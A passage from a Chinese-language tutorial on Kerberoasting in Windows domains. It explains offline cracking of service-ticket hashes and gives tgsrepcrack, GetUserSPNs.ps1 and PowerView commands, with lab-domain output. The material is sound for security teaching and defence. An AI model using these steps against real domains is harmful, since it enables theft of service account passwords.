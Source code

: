 请求的Kerbero服务票据的加密类型是 RC4_HMAC_MD5, 这意味着服务账户的NTLM密码哈希会被用来加密服务票据。

所以Kerberoast能够通过尝试不同的NTLM哈希来解开kerberos票据，一旦票据被成功解开，它的密码也就到手了。
(获得服务票据不需要提权，同时也不会发送数据到目标机器。)

```python
https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
python tgsrepcrack.py wordlist.txt sql.kirbi
```

## Kerberoasting - Kerberoast攻击的另一种姿势

我们通常不关心基于主机的SPN，因为计算机的机器帐户密码默认是随机的，每30天更换一次。

但是，请记住，也可以为域用户帐户注册任意的SPN。

一个常见的例子就是一个服务账户管理着多个MSSQL实例;此用户帐户注册的每个MSSQL实例都有一个<MSSQLSvc/HOST:PORT> 这样的SPN，

这个SPN存储在用户的serviceprincipalname属性里.如果我们有一个为域用户帐户注册的任意SPN，

那么该用户帐户的明文密码的NTLM哈希值就将用于创建服务票证

注意的是： 任何具有服务主体名称SPN的域用户帐户都可以被该域中任何用户请求该SPN的TGS，

从而允许攻击者离线破解服务帐户的明文密码！这显然取决于一个可破解的服务帐户明文密码的复杂度

**老套的”Kerberoasting攻击姿势**

```
给出的利用方法或工具包是使用工具集的组合来请求票证，并从内存中提取(使用Mimikatz)票证，然后将它们转换为可破解的格式。
```

一般来说，整个过程如下：

```powershell
a. 使用Tim的GetUserSPNS.ps1脚本或者Sean的Find-PSServiceAccounts.ps1脚本或PowerView的"Get-NetUser -SPN"来枚举域帐户的SPN。
枚举域帐户的SPN :  
> * GetUserSPNS.ps1 - https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
    PS C:\Users\Administrator\Desktop\kerberoast> . .\GetUserSPNs.ps1
        ServicePrincipalName : kadmin/changepw
        Name                 : krbtgt
        SAMAccountName       : krbtgt
        MemberOf             : CN=Denied RODC Password Replication Group,CN=Users,DC=demo,DC=local
        PasswordLastSet      : 9/13/2016 11:37:59 AM
        ServicePrincipalName : test/test
        Name                 : testwin10
        SAMAccountName       : testwin10
        MemberOf             :
        PasswordLastSet      : 1/12/2018 3:00:22 PM
> * PowerView 的 Get-NetUser -SPN - https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089
    PS C:\Users\Administrator\Desktop\PowerSploit\Recon> Get-NetUser -spn
        objectsid              : S-1-5-21-1239069908-882060383-2558203358-502
        iscriticalsystemobject : True
        samaccounttype         : 805306368
        objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=demo,DC=local
        objectclass            : {top, person, organizationalPerson, user}
        logoncount             : 0
        lastlogon              : 1/1/1601 8:00:00 AM
        serviceprincipalname   : kadmin/changepw
        adspath                : LDAP://CN=krbtgt,CN=Users,DC=demo,DC=local
        dscorepropagationdata  : {1/12/2018 6:32:42 AM, 9/13/2016 4:06:37 AM, 9/13/2016 3:53:08 AM, 1/1/1601 12:00:00 AM}
        distinguishedname      : CN=krbtgt,CN=Users,DC=demo,DC=local
        ....
```
